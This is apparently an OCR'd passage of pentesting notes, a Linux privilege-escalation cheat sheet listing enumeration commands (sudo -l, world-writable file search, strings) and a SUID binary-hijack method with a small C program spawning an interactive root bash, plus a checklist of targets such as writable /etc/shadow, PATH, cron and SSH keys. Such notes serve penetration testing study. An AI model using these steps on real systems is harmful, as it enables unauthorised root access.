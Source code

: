   ```
* Windows Privileges
* Unpatched Software

## Linux

### Vulnerable program

* Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  * `ps aux`

### Weak Permissions

* `find / -not -type l -perm -o+w`: world-writable files
  * Example: maybe you can edit shadow file...

### Sudo

* `sudo -l`
  * search on gtfobins how to exploit

### SUID - custom binary

* Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`
* Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime
  * `strings binary_name`

1. Method
   * `cp /bin/bash /path/to/loaded_binary`
2. Method

* Delete the loaded binary and replace with a new one:
* ```
  #include <stdio.h>
  #include <stdlib.h>

  int main() {
      system("/bin/bash -i"); 
      return 0;
  }
  ```
* `gcc binary.c -o <loaded_binary>` : compile
* `./binary_name` : run the binary

### Other

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`